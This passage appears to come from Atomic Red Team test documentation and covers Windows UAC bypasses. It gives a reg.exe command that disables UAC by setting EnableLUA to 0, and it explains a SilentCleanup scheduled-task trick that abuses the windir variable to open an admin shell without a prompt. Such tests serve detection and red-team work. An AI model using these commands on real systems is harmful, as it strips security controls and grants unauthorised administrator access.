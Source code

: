 #### Cleanup Commands:

```powershell
Remove-Item -Path "HKCU:\Software\Classes\Folder" -Recurse -Force -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #8 - Disable UAC using reg.exe

Disable User Account Conrol (UAC) using the builtin tool reg.exe by changing its registry key
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA from 1 to 0

**Supported Platforms:** Windows

**auto_generated_guid:** 9e8af564-53ec-407e-aaa8-3cb20c3af7f9

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:

```cmd
reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 1 /f
```

<br/>
<br/>

## Atomic Test #9 - Bypass UAC using SilentCleanup task

Bypass UAC using SilentCleanup task on Windows 8-10 using bat file from https://www.reddit.com/r/hacking/comments/ajtrws/bypassing_highest_uac_level_windows_810/

There is an auto-elevated task called SilentCleanup located in %windir%\system32\cleanmgr.exe This can be abused to elevate any file with Administrator privileges without prompting UAC (even highest level).

For example, we can set the windir registry kye to: "cmd /k REM "

And forcefully run SilentCleanup task:

schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I

REM will tell it to ignore everything after %windir% and treat it just as a NOTE. Therefore just executing cmd with admin privs.

**Supported Platforms:** Windows

**auto_generated_guid:** 28104f8a-4ff1-4582-bcf6-699dce156608
